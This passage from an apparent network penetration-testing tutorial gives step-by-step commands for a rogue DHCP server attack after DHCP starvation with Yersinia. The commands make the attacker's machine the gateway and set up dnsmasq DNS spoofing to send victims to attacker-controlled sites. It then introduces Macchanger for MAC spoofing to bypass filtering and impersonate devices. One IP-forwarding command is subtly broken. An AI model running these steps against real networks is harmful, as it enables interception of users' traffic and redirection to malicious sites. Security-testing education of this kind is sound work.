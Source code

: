 3. **Deploy a rogue DHCP server**:

```bash
# Exit the starvation attack (press q)
# Launch a rogue DHCP server attack
attack 3

# Configure the attack parameters
# - IP range start: 192.168.1.100
# - IP range end: 192.168.1.200
# - Default gateway: 192.168.1.254 (attacker's IP)
# - DNS server: 192.168.1.254 (attacker's IP)
```

4. **Set up the attacker's machine to handle DNS and routing**:

```bash
# In a separate terminal
# Configure the attacker's machine as a gateway
sudo ip addr add 192.168.1.254/24 dev eth0

# Enable IP forwarding
sudo echo 1 > /proc/sys/net/ipv4/ip_forward

# Set up NAT for internet access
sudo iptables -t nat -A POSTROUTING -o eth1 -j MASQUERADE

# Deploy a DNS server (e.g., dnsmasq) for DNS spoofing
sudo apt install dnsmasq
echo "address=/example.com/192.168.1.254" | sudo tee -a /etc/dnsmasq.conf
sudo systemctl restart dnsmasq
```

This attack is effective because:
- It first depletes the legitimate DHCP server's IP pool
- When clients can't get an IP from the legitimate server, they accept offers from the rogue server
- The rogue server provides malicious network configuration (gateway, DNS)
- All client traffic flows through the attacker's machine
- The DNS server directs victims to attacker-controlled websites

Yersinia's specialization in Layer 2 protocols makes it particularly valuable for testing network infrastructure security. These protocols often lack security controls and operate with high trust levels, making them attractive targets for attackers.

## Macchanger: MAC Address Manipulation

Macchanger is a utility for viewing and manipulating the MAC address of network interfaces. MAC address spoofing is useful for bypassing MAC filtering, avoiding tracking, and impersonating legitimate devices on a network.

### Installation

```bash
# On Debian/Ubuntu-based systems
sudo apt update
sudo apt install macchanger

# From source
git clone https://github.com/alobbs/macchanger.git
cd macchanger
./configure
make
sudo make install
```
